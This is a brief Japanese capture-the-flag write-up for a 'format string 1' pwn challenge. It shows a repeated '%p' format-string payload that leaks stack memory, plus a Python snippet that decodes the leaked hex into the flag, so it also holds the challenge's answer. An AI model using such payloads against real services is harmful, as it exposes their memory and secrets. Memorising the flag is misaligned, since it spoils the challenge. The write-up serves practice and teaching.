 ```yaml
---
title: "format string 1"
points: 100
tags: ["pwn"]
---
```


FSBがあり、スタックにある値を読みだせればいいだけなので以下のような値をぶん投げる。

`%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p`

出てきたものをasciiに直していく

```python
flags = [
  "7b4654436f636970",
  "355f31346d316e34",
  "3478345f33317937",
  "35365f673431665f",
  "7d313464303935",
]

for flag in flags:
    a = bytearray.fromhex(flag)
    a.reverse()
    print(a.decode(), end='')
```
